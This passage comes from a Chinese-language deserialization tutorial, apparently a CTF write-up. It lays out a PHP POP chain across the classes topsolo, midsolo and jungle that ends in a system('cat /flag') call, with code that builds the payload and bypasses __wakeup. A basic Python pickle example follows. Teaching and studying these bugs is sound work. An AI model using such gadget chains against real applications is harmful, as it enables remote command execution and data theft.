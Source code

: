 ```php
  }
}
?>
```
阅读全篇的代码，能够发现以下关联关系：
- `topsolo`中的`TP() $name();` 可以与`midsolo`的`__invoke()`关联
- `midsolo`中的`Gank() stristr`可以与`jungle`的`__toString()`关联

所以整个POP链构造如下，同时需要绕过`midsolo`的`__wakeup`：
```
topsolo -> __destruct() -> TP() -> $name() -> midsolo -> __invoke() -> Gank() -> stristr() -> jungle -> __toString -> KS() -> syttem('cat /flag')
```
对应php代码即：
```php
$jun = new jungle();
$mid = new midsolo($jun);
$top = new topsolo($mid);


// $ser = serialize($top);
// 绕过`midsolo`的`__wakeup`
// $ser = str_replace( '"midsolo":1:', '"midsolo":2:', $ser); 

// $filename = "example.ser";
// $file = fopen($filename, "w");
// fwrite($file, $ser);
// fclose($file);

$filename = "example.ser";
$file = fopen($filename, "r");
$fileSize = filesize($filename);
$ser = fread($file, $fileSize);
fclose($file);
unserialize($ser);
```

## Python反序列化

Python 中最常用的序列化模块是 pickle 模块。

### pickle 模块

```py
import pickle

class test:
    def __init__(self):
        self.people = 'lituer'
a = test()
serialized = pickle.dumps(a)
print(serialized)

unserialized = pickle.loads(serialized)
print(unserialized.people)
```
输出
```
b'\x80\x03c__main__\ntest\nq\x00)\x81q\x01}q\x02X\x06\x00\x00\x00peopleq\x03X\x06\x00\x00\x00lituerq\x04sb.'

lituer
```
